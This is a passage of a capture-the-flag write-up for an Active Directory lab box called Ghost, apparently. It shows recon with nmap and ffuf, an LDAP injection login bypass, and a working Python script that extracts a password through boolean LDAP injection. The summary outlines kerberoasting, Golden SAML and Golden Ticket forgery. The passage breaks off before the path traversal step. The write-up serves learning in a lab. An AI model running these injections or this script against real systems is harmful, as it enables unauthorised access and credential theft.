<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - A long one. A boolean LDAP injection on the intranet lets me log in as `kathryn.holland` with `*`/`*`, then brute-force the password of `gitea_temp_principal`. Inside Gitea the Ghost CMS repo has a path traversal that reads `/proc/self/environ` for the `DEV_INTRANET_KEY`, and the dev API behind that key has a command injection, which gives me a shell in a Linux container running as root. Its env leaks `intranet_principal`, a real domain account. From there it is all AD: kerberoast `adfs_gmsa`, grab a cached Kerberos ticket for `florence.ramirez`, coerce `justin.bradley` with a fake DNS record plus Responder and crack his hash (user.txt). `justin` can read the `adfs_gmsa` gMSA password, so I forge a Golden SAML to log into the ADFS-protected MSSQL console, pivot through a linked server to `PRIMARY`, impersonate `sa` for RCE, abuse `SeImpersonate` to get SYSTEM on `corp.ghost.htb`, and finally forge a cross-domain Golden Ticket to own `ghost.htb` and grab root.txt.

## Recon

Started with a full port scan against the target:

```bash
nmap -sV -sC -p- 10.129.231.105 -oN nmap/ghost
```





With the scan in hand I can tell the target is a DC, I'm almost 100% sure because of all the LDAP and Kerberos ports. The scan also leaks a couple of domains like `DC01.ghost.htb` and `ghost.htb`, so I grabbed those and threw them on my `/etc/hosts`. Then I went to the web server, but no luck, it just threw a not found error.



This is an Insane box though, so there's probably a ton of stuff hiding behind vhosts and I'm about to walk into a rabbit hole or two. I started enumerating subdomains and found `core.ghost.htb`.



So I added it to my `/etc/hosts` and opened it up.



And it just redirected me to `federation.ghost.htb`.



This one caught my eye. It's Active Directory Federation Services, Microsoft's SSO, and where there's ADFS there are usually more hosts around it, so I ran a ffuf scan to look for more subdomains.

```bash
ffuf -w /usr/share/seclist/Discovery/DNS/subdomains-top1million-5000.txt -u http://ghost.htb:8008 -H "Host: FUZZ.ghost.htb" -ac
```



And I found 2 more subdomains, added them to my `/etc/hosts` and went to investigate. I visited `intranet.ghost.htb` and got yet another login page.



I jumped straight to `gitea.ghost.htb`, just to see if I could get a quick win there.



There's the Gitea landing page. Gitea is basically like GitHub but you can host it on your own server. Let's see if we can explore something here, because it's probably connected to the AD itself since it's hosted there, and the credentials might be stored on the LDAP server. I found a username, `cassandra.shelton`, but nothing useful, so I went back to `intranet.ghost.htb` and intercepted a simple request.



## LDAP injection → intranet

In that request I could see it building something called `l_ldap-username`, so maybe it's querying the LDAP server. I already knew about LDAP injection, so I went to research how to reproduce it here. I tried a few things, and it turns out that putting `*` in both the username and the password just logs you straight in. The `*` works as a wildcard inside the LDAP filter, so instead of matching one specific account it matches the first one it finds, and the login goes through.



We're in as `kathryn.holland`. Let's see what we can get from here. Turns out I can't do much inside, the only thing I saw was a bunch of users.



From what I could read, they're migrating from Gitea to Bitbucket, and the only account that can still log into Gitea is `gitea_temp_principal`, which uses an intranet token as its password. That token isn't shown anywhere on the page, you're supposed to ask IT for it or pull it from an LDAP attribute. So if I've got LDAP injection, maybe I can just read that password myself and get into Gitea.

So my idea was: maybe `gitea_temp_principal` has a password or token stored in some LDAP attribute. First I confirmed the user really exists on LDAP.



And it does. Next was figuring out which attribute the password is stored in. This is a bit tricky, it's a boolean LDAP injection, so if the next char matches the one I specify it gives a different response, and you have to trial and error your way through. I put my programming skills to the test and wrote a little python script to speed things up. I tried enumerating the attributes but no luck, it was pretty hard, so I thought, well I can just brute-force the password with this same technique. (Why the hell didn't I think of this earlier, my god.)

So with the help of [this website](https://curlconverter.com/) I made this python script:

```python
import requests, string, urllib3
urllib3.disable_warnings()

URL = "http://intranet.ghost.htb:8008/login"
ACTION = "c471eb076ccac91d6f828b671795550fd5925940"
BOUNDARY = "----geckoformboundary948e638b493906a526da002dbc2882b0"
USER = "gitea_temp_principal"
CHARSET = string.ascii_letters + string.digits + "!@#$%^&*()-_+=."

H = {
    "Next-Action": ACTION,
    "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
    "Origin": "http://intranet.ghost.htb:8008",
    "Referer": URL,
}

def req(secret):
    b = f"--{BOUNDARY}"
    parts = [
        'Content-Disposition: form-data; name="1_$ACTION_REF_1"\r\n\r\n',
        f'Content-Disposition: form-data; name="1_$ACTION_1:0"\r\n\r\n{{"id":"{ACTION}","bound":"$@1"}}',
        'Content-Disposition: form-data; name="1_$ACTION_1:1"\r\n\r\n[{}]',
        'Content-Disposition: form-data; name="1_$ACTION_KEY"\r\n\r\nk2982904007',
        f'Content-Disposition: form-data; name="1_ldap-username"\r\n\r\n{USER}',
        f'Content-Disposition: form-data; name="1_ldap-secret"\r\n\r\n{secret}',
        'Content-Disposition: form-data; name="0"\r\n\r\n[{},"$K1"]',
    ]
    data = "".join(f"{b}\r\n{p}\r\n" for p in parts) + f"{b}--\r\n"
    return requests.post(URL, headers=H, data=data.encode(), verify=False,
                         timeout=15, allow_redirects=False).status_code

def esc(s):
    return s.replace("\\","\\5c").replace("(","\\28").replace(")","\\29").replace("*","\\2a")

pw = ""
while True:
    for c in CHARSET:
        if req(f"{esc(pw+c)}*") == 303:
            pw += c
            print(f"\r{pw}", end="", flush=True)
            break
    else:
        break
print(f"\n[+] {pw}")
```

And after a while I got the password.



So the creds are `gitea_temp_principal:szrr8kpc3z6onlqf`, let's give it a go on Gitea.



And we're in, they're valid. Before moving forward, I took all the users I found earlier and validated which ones exist on the domain with `kerbrute`.

```bash
kerbrute userenum -d ghost.htb --dc ghost.htb users.txt
```



And they're all there. Back to Gitea, I found this repo.



## Gitea → path traversal → command injection

They're using Ghost CMS, modified a bit to work the way they want. In the repo there's an API key lying around, with a note saying it's no problem since it's an internal repo. So maybe this is a pivot. After inspecting their custom code `post-public.js` I found a potential path traversal.



Basically if you search for posts on the API and pass an extra argument, you might get path traversal, so let's try it. I hit the posts endpoint with the API key and an `extra` argument (it has to be called exactly that):

```bash
